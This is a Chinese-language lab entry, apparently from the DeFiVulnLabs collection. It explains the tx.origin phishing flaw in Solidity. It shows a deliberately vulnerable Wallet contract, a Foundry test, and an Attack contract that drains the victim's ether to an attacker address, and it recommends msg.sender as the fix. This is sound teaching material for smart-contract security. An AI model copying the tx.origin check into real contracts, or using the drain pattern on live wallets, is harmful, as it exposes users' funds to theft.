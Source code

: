 # TX.Origin - 钓鱼攻击  
[txorigin.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/txorigin.sol)  

**名称：** 不安全的tx.origin漏洞  

**描述：**  
tx.origin是Solidity中的一个全局变量，在智能合约中使用此变量进行身份验证会使合约容易受到网络钓鱼攻击。  

**场景：**  
Wallet 是一个简单的合约，只有所有者才能够将以太币转移到其他地址。Wallet.transfer() 使用 tx.origin 来检查调用者是否是所有者。让我们看看如何攻击这个合约。    


**发生了什么？**  
Alice被骗去调用Attack.attack().在Attack.attack()函数中，有将Alice钱包中的所有资金转移到Eve的地址的操作。由于Wallet.transfer()中的tx.origin等于Alice的地址，因此它授权了转移。钱包将所有以太币转移给了Eve。

**缓解措施：**  
建议使用msg.sender进行身份验证。  

**参考：**  
https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing  

**合约：**  
```
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // 应该使用msg.sender去检查而不是tx.origin
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
``` 
**如何测试：**  
forge test --contracts src/test/txorigin.sol -vvvv  
```
// 用于测试使用tx.origin的漏洞的函数。
function testtxorigin() public {
    // “alice”和“eve”的地址是从以太坊虚拟机中获取的。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice得到10个以太币，Eve得到1个以太币。
    vm.deal(address(alice), 10 ether);
    vm.deal(address(eve), 1 ether);

    // 将msg.sender设置为alice。
    vm.prank(alice);

    // 使用 alice 的地址创建了一个 Wallet 合约，并向其发送了 10 以太币。
    WalletContract = new Wallet{value: 10 ether}();

    // 记录钱包合约的所有者。
    console.log("Owner of wallet contract", WalletContract.owner());

    // 将msg.sender设置为Eve。
    vm.prank(eve);

    // 使用 eve 的地址创建了一个 Attack 合约，并将 WalletContract 作为参数传递给它。
    AttackerContract = new Attack(WalletContract);

    // 记录攻击合约的所有者。
    console.log("Owner of attack contract", AttackerContract.owner());

    // 记录Eve的余额。
    console.log("Eve of balance", address(eve).balance);

    // Alice被骗调用attack函数
    vm.prank(alice, alice);
    AttackerContract.attack();

    // 记录tx.origin地址和msg.sender地址。
    console.log("tx origin address", tx.origin);
    console.log("msg.sender address", msg.sender);

    // 记录Eve更新后的余额。
    console.log("Eve of balance", address(eve).balance);
}

// Attack合约用于攻击Wallet合约的漏洞。
contract Attack {
    address payable public owner;
    Wallet wallet;

    // 构造函数接收一个 Wallet 合约作为参数。
    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    // 攻击函数会将 wallet 合约中的所有以太币转移到 Attack 合约的拥有者地址上。
    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
``` 
**红框：** 将所有以太币转移到了 Eve 的地址。。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F4311be5d-785a-4446-886f-02787a9e7ba4%2FUntitled.png?table=block&id=02802dc6-5cc0-4060-aeb5-dc82768f57d3&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)